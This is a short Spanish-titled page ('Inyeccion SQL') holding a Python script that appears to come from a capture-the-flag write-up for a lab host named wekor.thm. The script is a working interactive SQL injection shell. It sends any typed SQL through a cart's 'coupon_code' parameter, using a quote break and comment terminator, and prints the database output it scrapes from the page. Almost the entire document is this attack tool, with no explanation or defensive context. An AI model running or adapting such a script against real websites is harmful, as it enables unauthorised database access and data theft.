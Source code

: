 ## Inyeccion SQL
```python
#!/usr/bin/python3

import requests, time, pdb, signal, sys, re

def ctrl_c(sig, frame):

    print("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables
url = 'http://wekor.thm/it-next/it_cart.php'
burp = {'http':'http://127.0.0.1:8080'}

def makeRequest(query):

    post_data = {
            "coupon_code":f"test' {query}-- -",
            "apply_coupon":"Apply+Coupon"
            }

    r = requests.post(url, data=post_data)

    return r

def makeInjection():

    while True:

        query = input("$~ ")

        r = makeRequest(query)
        
        output = re.findall('<div align="center">(.*?)</div>', r.text)[0]
        
        if '<tr><td style="width:200px">' in output:
            output = output.replace('<tr><td style="width:200px">', "")
            output = output.replace(' </td>', "")

            print(output)
        else:
            print(output)

if __name__ == "__main__":
    makeInjection()

```
